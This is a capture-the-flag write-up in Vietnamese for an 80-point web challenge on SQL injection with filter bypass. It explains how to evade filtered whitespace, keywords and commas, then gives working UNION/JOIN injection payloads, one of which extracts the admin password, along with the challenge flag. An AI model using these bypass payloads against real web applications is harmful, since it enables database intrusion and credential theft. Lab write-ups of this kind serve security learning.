




```diff
@@Web-Server Challenges @@
```

## SQL injection - Filter bypass [80 Points]

* Mô tả ngắn gọn: Chúng ta sẽ inject vào tham số id ở đây

  

* Các ký tự bị filter và cách bypass như sau:

  * **Whitespace** = > thay thế bằng **%09** (tab)
  * **select** = > thay thế bằng **SELECT**
  * **union** = > thay thế bằng **UNION**
  * **join** = >  thay thế bằng **JOIN**
  * **select  1,2 (filter dấu , )** = > thay thế bằng **(SELECT 1) AS A JOIN (SELECT 2) AS B** (Nếu không có alias cho sub-query sẽ bị lỗi *Every derived table must have its own alias*)
  * **where** = > Thay thế bằng **limit** và **offset** 

* Ta có được hint từ source như sau

  

* Vậy là bảng có 4 cột, payload của ta sẽ có dạng như sau

  ```sql
  0 union select * from (select 1) as A join (select 2) as B join (select 3) as C join (select 4) as D
  ```

* Thay thế để nó bypass được filter thì payload trở thành như sau

  ```sql
  0%09UNION%09SELECT%09*%09FROM%09(SELECT%091)%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%09(SELECT%093)%09AS%09C%09JOIN%09(SELECT%094)%09AS%09D
  ```

* Kết quả thu được

  

* Sửa đổi 1 cột để trả ra password của admin và kết quả thu được là:

  * Payload: 

    ```sql
    0%09UNION%09SELECT%09*%09FROM%09(SELECT%091)%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%09(SELECT%093)%09AS%09C%09JOIN%09(SELECT%09pass%09From%09membres%09LIMIT%091%09OFFSET%090%09)%09AS%09D
    ```

  * Result:

    

  * ```diff
    -- Flag: KLfgyTIJbdhursqli
    ```
